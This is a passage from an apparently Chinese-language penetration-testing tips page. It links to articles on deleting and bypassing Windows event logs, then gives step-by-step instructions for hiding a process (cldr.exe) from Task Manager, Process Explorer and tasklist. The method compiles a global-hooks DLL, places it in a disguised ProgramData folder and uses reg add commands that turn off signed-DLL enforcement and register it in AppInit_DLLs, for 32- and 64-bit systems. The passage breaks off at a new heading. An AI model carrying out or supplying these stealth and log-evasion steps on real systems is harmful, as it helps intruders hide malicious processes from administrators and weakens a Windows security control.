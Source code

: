 [《渗透技巧-Windows日志的删除与绕过》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87/)

[《利用API-NtQueryInformationThread和I_QueryTagInformation实现对Windwos日志监控的绕过》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8API-NtQueryInformationThread%E5%92%8CI_QueryTagInformation%E5%AE%9E%E7%8E%B0%E5%AF%B9Windwos%E6%97%A5%E5%BF%97%E7%9B%91%E6%8E%A7%E7%9A%84%E7%BB%95%E8%BF%87/)

---

### Tips 6. Win7和Windows Server 2008 R2下的进程隐藏

利用globalAPIhooks，通过修改注册表实现

下载工程：https://github.com/subTee/AppInitGlobalHooks-Mimikatz

修改代码指定要隐藏的程序名cldr.exe，编译成cldr.dll，cldr.dll放在`C:\ProgramData\Microsoft\HelpLibrary\`

管理员权限：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldr.dll" /f
```

此时，任务管理器进程列表不存在cldr.exe，Process Explorer不存在cldr.exe，Tasklist.exe不存在cldr.exe

对于64位系统：

管理员权限：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldrx64.dll" /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldr.dll" /f
```

参考： 

[《利用globalAPIhooks在Win7系统下隐藏进程》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8globalAPIhooks%E5%9C%A8Win7%E7%B3%BB%E7%BB%9F%E4%B8%8B%E9%9A%90%E8%97%8F%E8%BF%9B%E7%A8%8B/)

---

### Tips 7. 同名exe和com文件执行顺序
